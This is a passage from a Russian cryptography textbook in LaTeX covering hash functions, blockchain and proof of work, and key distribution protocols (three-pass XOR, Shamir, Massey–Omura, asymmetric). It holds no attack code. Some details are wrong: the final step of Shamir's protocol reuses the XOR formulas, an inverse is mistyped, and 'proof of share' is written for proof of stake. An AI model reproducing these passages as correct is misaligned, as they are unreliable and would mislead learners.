\emph{Коллизией} хэш-функции называется пара значений аргумента, дающая одинаковый выход хэш-функции. Коллизии есть у любых хэш-функций, если количество различных значений аргумента превышает возможное количество значений результата функции (принцип Дирихле). А если не превышает, то и нет смысла использовать хэш-функцию.

\example
Приведём пример метода построения хэш-функции, называемого методом Меркла~---~Дамгарда\index{структура!Меркла~---~Дамгарда}~\cite{Merkle:1979, Merkle:1990, Damgard:1990}.

Пусть имеется файл $X$ в виде двоичной последовательности некоторой длины. Разделяем $X$ на несколько отрезков фиксированной длины, например по 256 символов:  $m_{1} ~\|~ m_{2} ~\|~ m_{3} ~\|~ \ldots ~\|~ m_{t}$. Если длина файла $X$ не является кратной 256 битам, то последний отрезок дополняем нулевыми символами и обозначаем $m'_{t}$.
Обозначим за $t$ новую длину последовательности. Считаем каждый отрезок $m_i, ~ i = 1, 2, \dots, t$ двоичным представлением целого числа.

Для построения хэш-функции используем рекуррентный способ вычисления. Предварительно введём вспомогательную функцию $\chi(m, H)$, называемую функцией компрессии или сжимающей функцией. Задаём начальное значение $H_{0} = 0^{256} \equiv \underbrace{000 \ldots 0}_{256} $. Далее вычисляем:
\[ \begin{array}{l}
    H_1 = \chi( m_1, H_0), \\
    H_2 = \chi( m_2, H_1), \\
    \dots,\\
    H_t = \chi( m'_t, H_{t-1}). \\
\end{array} \]
Считаем $H_{t} = h(X)$ хэш-функцией.
\exampleend

В программировании к свойствам хорошей хэш-функции относят:
\begin{itemize}
    \item быструю скорость работы;
    \item минимальное число коллизий.
\end{itemize}

Можно назвать и другие свойства, которые были бы полезны для хэш-функции в программировании. К ним можно отнести, например, отсутствие необходимости в дополнительной памяти (неиспользование <<кучи>>), простоту реализации, стабильность работы алгоритма (возврат одного и того же результата после перезапуска программы), соответствие результатов работы хэш-функции результатам работы других функций, например функций сравнения (см. например, описания функций \texttt{hashcode()}, \texttt{equals()} и \texttt{compare()} в языке программирования Java).

\emph{Однонаправленной функцией}\index{функция!однонаправленная} $f(x)$ называется функция, обладающая следующими свойствами:
\begin{itemize}
    \item вычисление значения функции $f(x)$ для всех значений аргумента $x$ является \emph{вычислительно лёгкой} задачей;
    \item нахождение аргумента $x$, соответствующего значению функции $f(x)$, является \emph{вычислительно трудной} задачей.
\end{itemize}

Свойство однонаправленности, в частности, означает, что если в аргументе $x$ меняется хотя бы один символ, то для любого $x$ значение функции $H(x)$ меняется непредсказуемо.

\emph{Криптографически стойкой хэш-функцией} $H(x)$ называется хэш-функция, имеющая следующие свойства:
\begin{itemize}
    \item однонаправленность: \emph{вычислительно невозможно} по значению функции найти прообраз;
    \item \emph{слабая устойчивость к коллизиям}\index{устойчивость к коллизиям} (слабо бесконфликтная функция): для заданного аргумента $x$ \emph{вычислительно невозможно} найти другой аргумент $y \neq x: ~ H(x) = H(y)$;
    \item \emph{сильная устойчивость к коллизиям} (сильно бесконфликтная функция): \emph{вычислительно невозможно} найти пару разных аргументов $x \neq y: ~ H(x) = H(y)$.
\end{itemize}

Из требования на устойчивость к коллизиям, в частности, следует свойство (близости к) равномерности распределения хэш-значений.

При произвольной длине последовательности $X$ длина хэш-функции $H(X)$ в российском стандарте ГОСТ Р 34.11-94 равна 256 символам, в американском стандарте SHA несколько различных значений длин: 160, 192, 256, 512 символов.

\input{GOST_R_34.11-94.tex}

\input{GOST_R_34.11-2012.tex}

\input{MAC}

\section{Коллизии в хэш-функциях}

\input{collisions_probability}

\input{hash-functions_combinations}

\section{Blockchain (цепочка блоков)}\label{section-blockchain}\index{Blockchain|(}
\selectlanguage{russian}

Когда у вас есть знания о том, что такое криптографически стойкая хэш-функция, понять, что такое цепочка блоков (\langen{blockchain}), очень просто. Blockchain -- это последовательный набор блоков (или же, в более общем случае, ориентированный граф), каждый следующий блок в котором включает в качестве хэшируемой информации значение хэш-функции от предыдущего блока.

Технология blockchain используется для организации журналов транзакций, при этом под транзакцией может пониматься что угодно: финансовая транзакция (перевод между счетами), аудит событий аутентификации и авторизации, записи о выполненных ТО и ТУ автомобилей. При этом событие считается случившимся, если запись о нём включена в журнал.

В таких системах есть три группы действующих лиц:

\begin{itemize}
	\item генераторы событий (транзакций);
	\item генераторы блоков (фиксаторы транзакций);
	\item получатели (читатели) блоков и зафиксированных транзакций.
\end{itemize}

В зависимости от реализации эти группы могут пересекаться. В системах типа Bitcoin\index{Bitcoin}, например, все участники распределённой системы могут выполнять все три функции. Хотя за создание блоков (фиксацию транзакций) обычно отвечают выделенные вычислительные мощности, а управляющими их участников называют майнерами (\langen{miners}, см. раздел про децентрализованный blockchain далее).

Основное требование к таким журналам таково:

\begin{itemize}
	\item невозможность модификации журнала: после добавления транзакции в журнал должно быть невозможно её оттуда удалить или изменить.
\end{itemize}

Для того чтобы понять, как можно выполнить требование на запрет модификации, стоит разобраться со следующими вопросами.

\begin{itemize}
	\item Каким образом гарантируется, что внутри блока нельзя поменять информацию?
	\item Каким образом система гарантирует, что уже существующую цепочку блоков нельзя перегенерировать, тем самым исправив в них информацию?
\end{itemize}

Ответ на первый вопрос прост: нужно снабдить каждый блок хэш-суммой от его содержимого. И эту хэш-сумму включить в качестве дополнительной полезной информации (тоже хэшируемой) в следующий блок. Тогда для того, чтобы поменять что-то в блоке без разрушения доверия клиентов к нему, нужно будет это сделать таким образом, чтобы хэш-сумма от блока не поменялась. А это как раз практически невозможно, если у нас используется криптографически стойкая хэш-функция. Либо поменять в том числе и хэш-сумму блока. Но тогда придётся менять и значение этой хэш-суммы в следующем блоке. А это потребует изменений, в свою очередь, в хэш-сумме всего второго блока, а потом и в третьем, и так далее. Получается, что для того, чтобы поменять информацию в одном из блоков, нужно будет перегенерировать всю цепочку блоков, начиная с модифицируемого. Можно ли это сделать?

Тут нужно ответить на вопрос, как в подобных системах защищаются от возможности перегенерации цепочки блоков. Мы рассмотрим три варианта систем:

\begin{itemize}
	\item централизованный с доверенным центром,
	\item централизованный с недоверенным центром,
	\item децентрализованный вариант с использованием доказательства работы.
\end{itemize}

\subsection{Централизованный blockchain с доверенным центром}

Если у нас есть доверенный центр, то мы просто поручаем ему через определённый промежуток времени (или же через определённый набор транзакций) формировать новый блок, снабжая его не только хэш-суммой, но и своей электронной подписью. Каждый клиент системы имеет возможность проверить, что все блоки в цепочке сгенерированы доверенным центром и никем иным. В предположении, что доверенный центр не скомпрометирован, возможности модификации журнала злоумышленником нет.

Использование технологии blockchain в этом случае является избыточным. Если у нас есть доверенный центр, можно просто обращаться к нему с целью подписать каждую транзакцию, добавив к ней время и порядковый номер. Номер обеспечивает порядок и невозможность добавления (удаления) транзакций из цепочки, электронная подпись доверенного центра -- невозможность модификации конкретных транзакций.

\subsection{Централизованный blockchain с недоверенным центром}

Интересен случай, когда выделенный центр не является доверенным. Точнее, не является полностью доверенным. Мы ему доверяем в плане фиксации транзакций в журнале, но хотим быть уверенными, что выделенный центр не перегенерирует всю цепочку блоков, удалив из неё ненужные ему более транзакции или добавив нужные.

Для этого можно использовать, например, следующие методы.

\begin{itemize}
	\item Первый метод с использованием дополнительного доверенного хранилища. После создания очередного блока центр должен отправить в доверенное и независимое от данного центра хранилище хэш-код от нового блока. Доверенное хранилище не должно принимать никаких изменений к хэш-кодам уже созданных блоков. В качестве такого хранилища можно использовать и децентрализованную базу данных системы, если таковая присутствует. Размер хранимой информации может быть небольшим по сравнению с общим объёмом журнала.
	\item Второй возможный метод состоит в дополнении каждого блока меткой времени, сгенерированной доверенным центром временных меток. Такая метка должна содержать время генерации метки и электронную подпись центра, вычисленную на основании хэш-кода блока и времени метки. В случае, если <<недоверенный>> центр захочет перегенерировать часть цепочки блоков, будет наблюдаться разрыв в метках времени. Стоит отметить, что этот метод не гарантирует, что <<недоверенный>> центр не будет генерировать сразу две цепочки блоков, дополняя их корректными метками времени, а потом не подменит одну другой.
	\item Некоторые системы предлагаю связывать закрытые blockchain-решения и открытые (и неконтролируемые ими) сети вроде Bitcoin'а, публикую в последнем (в виде транзакции) информацию о хэш-суммах новых блоков из закрытой цепочки. В этом случае информация из открытой и неконтролируемой организацией сети позволяет доказать, что определённый блок во внутренней сети был сформирован не позднее времени создания блока в открытой сети. А отсутствие для известных (заданных заранее) адресов отправителя других транзакций позволяет доказать, что центральный узел не формирует какую-нибудь параллельную цепочку для замены в будущем.
\end{itemize}

\subsection{Децентрализованный blockchain}

Наибольший интерес для нас (и -- наименьший для компаний, продающих blockchain-решения) представляет децентрализованная система blockchain без выделенных центров генерации блоков. Каждый участник может взять набор транзакций, ожидающих включения в журнал, и сформировать новый блок. Более того, в системах типа Bitсoin\index{Bitcoin} такой участник (будем его назвать <<майнером>>, от \langen{to mine} -- копать) ещё и получит премию в виде определённой суммы и/или комиссионных от принятых в блок транзакций.

Но нельзя просто так взять и сформировать блок в децентрализованных системах. Надёжность таких систем основывается именно на том, что новый блок нельзя сформировать быстрее (в среднем) чем за определённое время. Например, за 10 минут (Bitcoin). Это обеспечивается механизмом, который получил название доказательство работы (\langen{proof of work, PoW}).

Механизм основывается на следующей идее. Пусть есть криптографически стойкая хэш-функция $h(x)$, и задан некоторый параметр $t$ (от \langen{target} -- цель). $0 < t < 2^{n}$, где $n$ -- размер выхода хэш-функции в битах. Корректным новым блоком blockchain-сеть будет признавать только такой, значение хэш-суммы которого меньше текущего заданного параметра $t$. В этом случае алгоритм работы майнера выглядит следующий образом:
\begin{itemize}
	\item собрать из пула незафиксированных транзакций те, которые поместятся в 1 блок (1 мегабайт для сети Bitcoin\index{Bitcoin}) и имеют максимальную комиссию (решить задачу о рюкзаке\index{задача!о рюкзаке});
	\item добавить в блок информацию о предыдущем блоке;
	\item добавить в блок информацию о себе (как об авторе блока, кому начислять комиссии и бонусы за блок);
	\item установить $r$ в некоторое значение, например, $0$;
	\item выполнять в цикле:
	\begin{itemize}
		\item обновить значение $r := r + 1$;
		\item посчитать значение $h = h( \text{блок} || r)$;
		\item если $h < t$, добавить в блок $r$ и считать блок сформированным, иначе -- повторить цикл.
	\end{itemize}
\end{itemize}

Для каждой итерации цикла вероятность получить корректный блок равна $t / 2^{n}$. Так как $t$ обычно мало, то майнерам нужно сделать большое количество итераций цикла, чтобы найти нужный $r$. При этом только один (обычно -- первый) из найденных блоков будет считаться корректным. Чем больше вычислительная мощность конкретного майнера, тем больше вероятность, что именно он первым сумеет найти нужный $r$.

Зная суммарную вычислительную мощность blockchain-сети, участники могут договориться о таком механизме изменения параметра $t$, чтобы время генерации нового корректного блока было примерно заданное время. Например, в сети Bitcoin параметр $t$ пересчитывается каждые 2016 блоков таким образом, чтобы среднее время генерации блока было 10 минут. Это позволяет адаптировать сеть к изменению количества участников, их вычислительных мощностей и к появлению новых механизмов вычисления хэш-функций.

Кроме задания параметра $t$ можно оперировать другими величинами, так или иначе относящимися к мощности вычислений.
\begin{itemize}
	\item \textit{Hashrate} -- количество хэшей, которые считают за единицы времени конкретный майнер или сеть в целом. Например, в ноябре 2017 года общий hashrate для сети Bitcoin составлял примерно $7,7 \times 10^{18}$ хэшей в секунду.
	\item \textit{Difficulty} -- сложность поиска корректного блока, выражаемая как $d = d_{const} / t$, где $d_{const}$ -- некоторая константа сложности, а $t$ -- текущая цель (\langen{target}). В отличие от параметра $t$, который падает с ростом вычислительной мощности сети, $d$ изменяется вместе с $hashrate$, что делает его более простым для восприятия и анализа человеком.
\end{itemize}

В случае примерно одновременной генерации следующего блока двумя и более майнерами (когда информация о новом блоке публикуется вторым майнером до того, как ему придёт информация о новом блоке от первого) в направленном графе блоков происходит разветвление. Далее каждый из майнеров выбирает один из новых блоков (например -- какой первый увидели) и пытается сгенерировать новый блок на основе выбранного, продолжая <<ответвление>> в графе. В конце концов одна из двух таких цепочек становится длиннее (та, которую выбрало большее число майнеров), и именно она признаётся основной.

В случае нормального поведения системы на включение конкретных транзакций в блоки это влияет мало, так как каждый из добросовестных майнеров следует одному и тому же алгоритму включения транзакций в блок (например, в сети Bitcoin\index{Bitcoin} -- алгоритму максимизации комиссии за блок). Однако можно предположить, что какой-нибудь злоумышленник захочет <<модерировать>> распределённый blockchain, включая или не включая в блоки транзакции по своему выбору. Предположим, что доля вычислительных ресурсов злоумышленника (направленных на генерацию нового блока) равна $p, 0 < p < 1/2$. В этом случае каждый следующий сгенерированный блок с вероятностью $p$ будет сгенерирован мощностями злоумышленника. Это позволит ему включать в блоки те транзакции, которые другие майнеры включать не захотели.

Но позволит ли это злоумышленнику не включать что-то в цепочку транзакций? Нет. Потому что после его блока с вероятностью $1 - p$ будет следовать блок <<обычного>> майнера, который с радостью (пропорциональной комиссии-награде) включит все транзакции в свой блок.

Однако ситуация меняется, если мощности злоумышленника составляют более 50\% от мощности сети. В этом случае, если после блока злоумышленника был с вероятностью $1 - p$ сгенерирован <<обычный>> блок, злоумышленник его может просто проигнорировать и продолжать генерировать новые блоки, как будто он единственный майнер в сети. Тогда если среднее время генерации одного блока всеми мощностями $t$, то за время $T$ злоумышленник сможет сгенерировать $N_E = p \times T / t$, а легальные пользователи $N_L = (1 - p) \times T / t$ блоков, $N_E > N_L$. Даже если с некоторой вероятностью легальные пользователи сгенерируют 2 блока быстрее, чем злоумышленник один, последний всё равно <<догонит и перегонит>> <<легальную>> цепочку примерно за время $t / (2p - 1)$. Так как в blockchain есть договоренность, что за текущее состояние сети принимается наиболее длинная цепочка, именно цепочка злоумышленника всегда будет восприниматься правильной. Получается, что злоумышленник сможет по своему желанию включать или не включать транзакции в цепочки.

Правда, пользоваться чужими деньгами злоумышленник всё равно не сможет -- так как все блоки транзакций проверяются на внутреннюю непротиворечивость и корректность всех включённых в блок транзакций.

Кроме концепции <<доказательство работы>> используются и другие. Например, в подходе <<доказательство доли владения>> (\langen{proof of share, PoS}), который планировалось использовать в сетях Etherium и EmerCoin, вероятность генерации блока пропорциональна количеству средств на счетах потенциальных создателей нового блока. Это намного более энергоэффективно по сравнению с PoW, и, кроме того, связывает ответственность за надёжность и корректность генерации новых блоков с размером капитала (чем больше у нас средств, тем меньше мы хотим подвергать опасности систему). С другой стороны, это даёт дополнительную мотивацию концентрировать больше капитала в одних руках, что может привести к централизации системы.

\subsection{Механизм внесения изменений в протокол}
Любая система должна развиваться. Но у децентрализованных систем нельзя просто <<включить один рубильник>> и заставить участников системы работать по новому -- иначе систему нельзя назвать полностью децентрализованной. Механизмы и способы внесения изменений могут выглядеть на первый взгляд нетривиально. Например:

\begin{enumerate}
	\item апологеты системы предлагают изменения в правилах работы;
	\item авторы ПО вносят изменения в программный код, позволяя сделать две вещи:
	\begin{itemize}
		\item указать участникам системы, что они поддерживают новое изменение,
		\item поддержать новое изменение;
	\end{itemize}
	\item участники системы скачивают новую версию и выставляют в новых блоках транзакций (или в самих транзакциях) сигнальные флаги, показывающие их намерение поддержать изменение;
	\item если к определённой дате определённое число блоков (или число транзакций, или объём транзакций) содержат сигнальный флаг, то изменение считается принятым, и большая (по числу новых блоков) часть участников системы в определённую дату включают эти изменения;
	\item те участники, которые не приняли изменения, или приняли изменения вопреки отсутствию согласия на них большей части участников, в худшем случае начнут генерировать свою цепочку блоков, только её признавая корректной. Основную цепочку блоков они будут считать неверно сгенерированной. По факту это приведёт к дублированию (разветвлению, форку) системы, когда в какую-то дату вместо одного журнала транзакций появляется два, ведущимися разными людьми. Это журналы совпадают до определённой даты, после чего в них начинаются расхождение.
\end{enumerate}

Подводя итоги, Сатоши Накамото (псевдоним, \langen{Satoshi Nakamoto}), автор технологий blockchain и Bitcoin\index{Bitcoin}, сумел предложить работающий децентрализованный механизм, в котором и само поведение системы, и изменения к этой системе проходят через явный или неявный механизм поиска консенсуса участников. Для получения контроля над системой в целом злоумышленнику придётся получить контроль как минимум над 50\% всех мощностей системы (в случае PoW), а без этого можно лишь попытаться ограничить возможность использования системы конкретными участниками.

Однако созданная технология не лишена недостатков. Существуют оценки, согласно которым использование метода PoW для системы bitcoin приводит к затратам энергии, сравнимой с потреблением электричества целыми городами или странами. Есть проблемы и с поиском консенсуса -- сложный механизм внесения изменений, как считают некоторые эксперты, может привести к проблемам роста (например, из-за ограниченности числа транзакций в блоке), и, в будущем, к отказу использования механизма как устаревшего и не отвечающего будущим задачам.

\index{Blockchain|)}



\input{public-key}

\chapter{Распространение ключей}\index{протокол!распространения ключей}\label{chapter-key-distribution-protocols}
\selectlanguage{russian}

Задача распространения ключей является одной из множества задач построения надёжной сети общения многих абонентов. Задача состоит в получении в нужный момент времени двумя легальными абонентами сети секретного сессионного ключа шифрования (и аутентификации сообщений). Хорошим решением данной задачи будем считать такой протокол распространения ключей, который удовлетворяет следующим условиям.

\begin{itemize}
	\item В результате работы протокола между двумя абонентами должен быть сформирован секретный сессионный ключ.
	\item Успешное окончание работы протокола распространения ключей должно означать успешную взаимную аутентификацию абонентов. Не должно быть такого, что протокол успешно завершился с точки зрения одной из сторон, а вторая сторона при этом представлена злоумышленником.
	\item К участию в работе протокола должны допускаться только легальные пользователи сети. Внешний пользователь не должен иметь возможность получить общий сессионный ключ с кем-либо из абонентов.
	\item Добавление нового абонента в сеть (или исключение из неё) не должно требовать уведомления всех участников сети.
\end{itemize}

Последнее требование сразу исключает такие варианты протоколов, в которых каждый из абонентов знал бы некоторый мастер-ключ общения с любым другим участником. Данные варианты плохи тем, что с ростом системы количество пар мастер-ключей <<абонент-абонент>> растёт как квадрат от количества участников. Поэтому большая часть рассматриваемых решений состоит в том, что в сети выделяется один или несколько доверенных центров T (\langen{Trent}, от \langen{trust}), которые как раз и владеют информацией обо всех легальных участниках сети и их ключах. Они же будут явно или неявно выступать одним из участников протоколов по формированию сеансовых ключей.

\begin{figure}[!htb]
    \centering
    \includegraphics[width=0.8\textwidth]{pic/key_distribution-networks}
    \caption{Варианты сетей без выделенного доверенного центра и с выделенным доверенным центром T\label{fig:key_distribution-networks}}
\end{figure}

Важным моментом при анализе решений данной задачи является то, что сессионные ключи, вырабатываемые в конкретный момент времени, являются менее надёжными, чем мастер-ключи, используемые для генерации сессионных. В частности, нужно предполагать, что хотя злоумышленник не может получить сессионный ключ во время общения абонентов, он может сделать это по прошествии некоторого времени (дни, недели, месяцы). И хотя знание этого сессионного ключа поможет злоумышленнику расшифровать старые сообщения, он не должен иметь возможность организовать новую сессию с использованием уже известного ему сессионного ключа.

\input{key_distribution-simmetric}

\section{Трёхпроходные протоколы}
\selectlanguage{russian}

Если между Алисой и Бобом существует канал связи, недоступный для модификации злоумышленником (то есть когда применима модель только пассивного криптоаналитика), то даже без предварительного обмена секретными ключами или другой информацией можно воспользоваться идеями, использованными ранее в криптографии на открытых ключах. После описания RSA в 1978 году, в 1980 Ади Шамир предложил использовать криптосистемы, основанные на коммутативных операциях, для передачи информации без предварительного обмена секретными ключами. Если предположить, что передаваемой информацией является выработанный одной из сторон секретный сеансовый ключ, то в общем виде мы получаем следующий трёхпроходной протокол.

Предварительно:

\begin{itemize}
	\item Алиса и Боб соединены незащищённым каналом связи, открытым для прослушивания (но не для модификации) злоумышленником.
	\item Каждая из сторон имеет пару из открытого и закрытого ключей $K_A$, $k_A$, $K_B$, $k_B$ соответственно.
	\item Сторонами выбрана и используется коммутативная функция шифрования:
	\begin{align*}
		D_{A} \left( E_{A} \left( X \right) \right)	&= X		& ~~\forall ~ X, \left\{ K_A, k_a \right\}; \\
		E_{A} \left( E_{B} \left( X \right) \right)	&= E_B \left( E_A \left( X \right) \right) & ~~\forall ~ K_A, K_B, X.
	\end{align*}
\end{itemize}

Протокол состоит из трёх шагов (отсюда и название).
\begin{enumerate}
    \item Алиса создаёт новый секретный сеансовый ключ $K_S$, шифрует его с помощью своего ключа $K_A$ и посылает сообщение Бобу:
        \[ Alice \rightarrow ~ E_A \left( K_S \right) ~ \rightarrow Bob. \]
    \item Боб получает это сообщение, шифрует его с помощью своего ключа $K_B$ и посылает сообщение Алисе:
        \[ Bob \rightarrow ~ E_B \left( E_A \left( K_S \right) \right) ~ \rightarrow Alice. \]
    Алиса, получив сообщение $E_B \left( E_A \left( K_S \right) \right)$, использует свой закрытый ключ $k_A$ для расшифрования:
	\[ D_A \left( E_B \left( E_A \left( K_S \right) \right) \right) = D_A \left( E_A \left( E_B \left( K_S \right) \right) \right) = E_B \left( K_S \right). \]
    \item Алиса передаёт Бобу сообщение, в котором новый секретный сеансовый ключ зашифрован уже только ключом Боба:
        \[ Alice \rightarrow ~ E_B \left( K_S \right) ~ \rightarrow Bob. \]
    Боб, получив сообщение $E_B \left( K_S \right)$, использует свой ключ $k_B$ для расшифрования:
	\[ D_B \left( E_B \left( K_S \right) \right) = K_S. \]
\end{enumerate}

В результате стороны получают общий секретный ключ $K_S$.

Общим недостатком всех подобных протоколов является отсутствие аутентификации сторон. Конечно, в случае пассивного криптоаналитика это не требуется, но в реальной жизни всё-таки нужно рассматривать все возможные модели (в том числе активного криптоаналитика) и использовать такие протоколы, которые предполагают взаимную аутентификацию сторон.

\subsection{Тривиальный вариант}

Приведём пример протокола на основе функции XOR (побитовое сложение по модулю 2). Хотя данная функция может использоваться как фундамент для построения систем совершенной криптостойкости (см. главу~\ref{chapter:perfect_secure_systems}), для трёхпроходного протокола это неудачный выбор.

Перед началом протокола обе стороны имеют свои секретные ключи $K_A$ и $K_B$, представляющие собой случайные двоичные последовательности с равномерным распределением символов. Функция шифрования определяется как $E_i( X ) = X \oplus K_i$, где $X$ это сообщение, а $K_i$ -- секретный ключ. Очевидно, что:
\[ \forall i, j, X: E_i \left( E_j \left( X \right) \right) = X \oplus K_j \oplus K_i = X \oplus K_i \oplus K_j = E_j \left( E_i \left( X \right) \right) \]

\begin{enumerate}
    \item Алиса генерирует новый сеансовый ключ, шифрует его своим секретным ключом $K_A$ и посылает Бобу:
            \[\begin{array}{l}
		E_A(K) = K \oplus K_A, \\
		Alice \rightarrow ~ E_A(K) ~ \rightarrow Bob.
	    \end{array}\]
    \item Боб шифрует полученное сообщение уже своим ключом и отправляет Алисе:
            \[\begin{array}{l}
		E_B(E_A(K)) = K \oplus K_A \oplus K_B, \\
		Bob \rightarrow ~ E_B(E_A(K)) ~ \rightarrow Alice.
	    \end{array}\]
    \item Используя коммутативность операции шифрования, Алиса <<снимает>> шифрование своим ключом и отправляет результат Бобу:
            \[ D_A \left( E_B \left( E_A \left( K \right) \right) \right) = K \oplus K_A \oplus K_B \oplus K_A = K \oplus K_B = E_B \left( K \right). \]
            \[ Alice \rightarrow ~ E_B \left( K \right) ~ \rightarrow Bob. \]
    Боб, получив сообщение $K \oplus K_B$, выполняет расшифрование:
            \[ D_B( E_B( K ) ) = K \oplus K_B \oplus K_B = K. \]
    В результате Алиса и Боб знают общий сеансовый ключ $K$.
\end{enumerate}

Предложенный выбор коммутативной функции шифрования совершенной секретности был назван неудачным, так как существуют ситуации, при которых криптоаналитик может определить ключ $K$. Предположим, что криптоаналитик перехватил все три сообщения:
    \[ K \oplus K_A, ~~ K \oplus K_A \oplus K_B, ~~ K \oplus K_B. \]
Сложение по модулю 2 всех трёх сообщений даёт ключ $K$. Поэтому такая система шифрования не применяется.

Теперь приведём протокол надёжной передачи секретного ключа, основанный на экспоненциальной (коммутативной) функции шифрования. Стойкость этого протокола связана с трудностью задачи вычисления дискретного логарифма: при известных значениях $y, g, p$, найти $x$ из уравнения $y = g^x \mod p$.

\subsection{Бесключевой протокол Шамира}\index{протокол!Шамира бесключевой|(}

Стороны предварительно договариваются о большом простом числе $p \sim 2^{1024}$. Каждая из сторон выбирает себе по секретному ключу $a$ и $b$. Эти ключи меньше и взаимно просты с $p-1$. Также стороны приготовили по специальному числу $a'$ и $b'$, которые позволяют им расшифровать сообщение, зашифрованное своим ключом:
\[\begin{array}{l}
a' = a{-1} \mod (p-1), \\
a \times a' = 1 \mod (p-1), \\
\forall X: (X^a)^{a'} = X. \\
\end{array}\]

Последнее выражение верно по следствию из малой теоремы Ферма\index{теорема!Ферма малая}. Операции шифрования и расшифрования определяются следующим образом (на примере Алисы):
\[\begin{array}{ll}
\forall X < p:	& E_A( X ) = X^{a} \mod p, \\
		& D_A( X ) = X^{a'} \mod p, \\
		& D_A( E_A( X ) ) = X^{aa'} = X \mod p. \\
\end{array}\]

\begin{enumerate}
    \item Алиса создаёт новый сеансовый ключ $K < p$, шифрует его своим секретным ключом $a$ и посылает сообщение Бобу:
            \[\begin{array}{l}
		E_A(K) = K ^ a \mod p, \\
		Alice \rightarrow ~ E_A(K) ~ \rightarrow Bob.
	    \end{array}\]
    \item Боб шифрует полученное сообщение уже своим ключом и отправляет Алисе:
            \[\begin{array}{l}
		E_B(E_A(K)) = K^{ab} \mod p, \\
		Bob \rightarrow ~ E_B(E_A(K)) ~ \rightarrow Alice.
	    \end{array}\]
    \item Используя коммутативность операции шифрования, Алиса <<снимает>> шифрование своим ключом и отправляет результат Бобу:
            \[ D_A \left( E_B \left( E_A \left( K \right) \right) \right) = \left( K^{ab} \right) ^{a'} = K^{aa'b} = K^{b} = E_B \left( K \right) \mod p. \]
            \[ Alice \rightarrow ~ E_B \left( K \right) ~ \rightarrow Bob. \]
    Боб, получив сообщение $K \oplus K_B$, выполняет расшифрование:
            \[ D_B( E_B( K ) ) = K \oplus K_B \oplus K_B = K. \]
    В результате Алиса и Боб знают общий сеансовый ключ $K$.
\end{enumerate}

Предположим, что криптоаналитик перехватил три сообщения:
\[ \begin{array}{l}
    y_1 = K^a \mod p, \\
    y_2 = K^{ab} \mod p, \\
    y_3 = K^b \mod p. \\
\end{array} \]

Чтобы найти ключ $K$, криптоаналитику надо решить систему из этих трёх уравнений, что имеет очень большую вычислительную сложность, неприемлемую с практической точки зрения, если все три числа $a, b, ab$ достаточно велики. Предположим, что $a$ (или $b$) мало. Тогда, вычисляя последовательные степени $y_3$ (или $y_1$), можно найти $a$ (или $b$), сравнивая результат с $y_2$. Зная $a$, легко найти $a^{-1}\mod(p-1)$ и $K=(y_1)^{a^{-1}}\mod p$.

\index{протокол!Шамира бесключевой|)}

\subsection{Криптосистема Мэсси~---~Омуры}\index{протокол!Мэсси~---~Омуры|(}\index{криптосистема!Мэсси~---~Омуры|(}

В 1982 году Джеймс Мэсси и Джим Омура заявили патент (\langen{James Massey, Jim K. Omura},~\cite{Massey:Omura:1986}), улучшающий (по их мнению) бесключевой протокол Шамира. В качестве операции шифрования вместо возведения в степень в мультипликативной группе $\Z_p^*$ они предложили использовать возведение в степень в поле Галуа $\GF{2^n}$. Секретный ключ каждой стороны (для Алисы -- $a$) должен удовлетворять условиям:
\[ \begin{array}{l}
 a \in \GF{2^n}, \\
 gfd \left( a, x^{ n-1 } + x^{ n-2 } + ... + x + 1 \right) = 1. \\
\end{array} \]

В остальном протокол выглядит аналогично.

\index{протокол!Мэсси~---~Омуры|)}\index{криптосистема!Мэсси~---~Омуры|)}

\section{Асимметричные протоколы}

Асимметричные протоколы, или же протоколы, основанные на криптосистемах с открытыми ключами, позволяют ослабить требования к предварительному этапу протоколов. Вместо общего секретного ключа, который должны иметь две стороны (либо обе стороны и доверенный центр), в рассматриваемых ниже протоколах стороны должны предварительно обменяться открытыми ключами (между собой либо между собой и доверенным центром). Такой предварительный обмен может проходить по открытому каналу связи, в предположении, что криптоаналитик не может повлиять на содержимое канала связи на данном этапе.

\subsection{Простой протокол}

Рассмотрим протокол распространения ключей с помощью асимметричных шифров. Введём обозначения: $K_B$ -- открытый ключ стороны $B$, а $K_A$ -- открытый ключ стороны $A$. Протокол включает три сеанса обмена информацией.
\begin{enumerate}
    \item В первом сеансе сторона $A$ посылает стороне $B$ сообщение:
            \[ A \rightarrow B: ~ E_{K_B}(K_1, A), \]
        где $K_1$ -- ключ, выработанный стороной $A$.
    \item Сторона $B$ получает $(K_1, A)$ и передаёт стороне $A$ наряду с другой информацией свой ключ $K_2$ в сообщении, зашифрованном с помощью открытого ключа $K_A$:
            \[ A \leftarrow B: ~ E_{K_A}(K_2, K_1, B). \]
    \item Сторона $A$ получает и расшифровывает сообщение $(K_2, K_1, B)$. Во время третьего сеанса сторона $A$, чтобы подтвердить, что она знает ключ $K_2$, посылает стороне $B$ сообщение:
            \[ A \rightarrow B: ~ E_{K_B}(K_2). \]
\end{enumerate}
Общий ключ формируется из двух ключей: $K_1$ и $K_2$.

\subsection{Протоколы с цифровыми подписями}

Существуют протоколы обмена, в которых перед началом обмена ключами генерируются подписи сторон $A$ и $B$, соответственно $S_A(m)$ и $S_B(m)$. В этих протоколах можно использовать различные одноразовые метки. Рассмотрим пример.
\begin{enumerate}
    \item Сторона $A$ выбирает ключ $K$ и вырабатывает сообщение:
            \[ \left( K, ~ t_A, ~ S_A(K, t_A, B) \right), \]
        где $t_A$ -- метка времени. Зашифрованное сообщение передаёт стороне $B$:
        \[ A \rightarrow B: ~ E_{K_B}(K, ~ t_A, ~ S_A(K, t_A, B)). \]
    \item Сторона $B$ получает это сообщение, расшифровывает $\left( K, ~ t_A, ~ S_A(K, t_A, B) \right)$ и вырабатывает свою метку времени $t_B$. Проверка считается успешной, если $|t_B - t_A | < \delta $. Сторона $B$ знает свои реквизиты и может осуществлять проверку подписи.
\end{enumerate}

Имеется второй вариант протокола, в котором шифрование и подпись выполняются раздельно.
\begin{enumerate}
    \item Сторона $A$ вырабатывает ключ $K$, использует одноразовую метку (или метку времени) $t_{A}$ и передаёт стороне $B$ два различных зашифрованных сообщения:
            \[ \begin{array}{ll}
                A \rightarrow B: & ~ E_{K_B}(K, t_A), \\
                A \rightarrow B: & ~ S_A(K, t_A, B). \\
            \end{array} \]
    \item Сторона $B$ получает это сообщение, расшифровывает $K, t_A$ и, добавив свои реквизиты, может проверить подпись $S_A(K, t_A, B)$.
\end{enumerate}

В третьем варианте протокола сначала производится шифрование, потом подпись.
\begin{enumerate}
    \item Сторона $A$ вырабатывает ключ $K$, использует одноразовую случайную метку или метку времени $t_A$ и передаёт стороне $B$ сообщение:
